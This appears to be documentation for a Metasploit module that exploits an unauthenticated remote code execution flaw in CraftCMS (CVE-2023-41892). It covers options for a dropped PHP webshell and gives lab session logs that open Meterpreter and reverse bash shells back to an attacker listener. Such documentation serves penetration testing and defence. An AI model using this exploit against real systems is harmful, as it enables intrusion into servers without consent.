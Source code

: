 ```shell

View the full module info with the info -d command.
```

## Options
### WEBSHELL
You can use this option to set the filename of the webshell with extension `.php`, otherwise the name will be randomly generated.

### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are `system()`, `passthru()`, `shell_exec()` and `exec()` and it defaults to `passthru()`.
This option is only available when the target selected is either Unix Command or Linux Dropper.
For the native PHP target, by default the `eval()` function will be used for native PHP code execution.

## Scenarios
### CraftCMS 4.4.14 on MacOS PHP - php/meterpreter/reverse_tcp
```shell
msf6 exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.25
[+] Deleted /var/www/html/web/CDfbvAnrZMH.php
[+] Deleted /tmp/php5M63PK
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.25:51044) at 2023-12-17 12:31:55 +0000

meterpreter > sysinfo
Computer    : craftcms-vuln-web
OS          : Linux craftcms-vuln-web 6.4.16-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Nov 16 10:55:59 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```
### CraftCMS 4.4.14 on MacOS Unix Command - cmd/unix/reverse_bash
```shell
msf6 exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > set target 1
target => 1
msf6 exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted /var/www/html/web/XGCuZFdoia.php
[+] Deleted /tmp/phpakTlmu
[*] Command shell session 2 opened (192.168.201.8:4444 -> 192.168.201.25:51101) at 2023-12-17 12:34:34 +0000

uname -a
```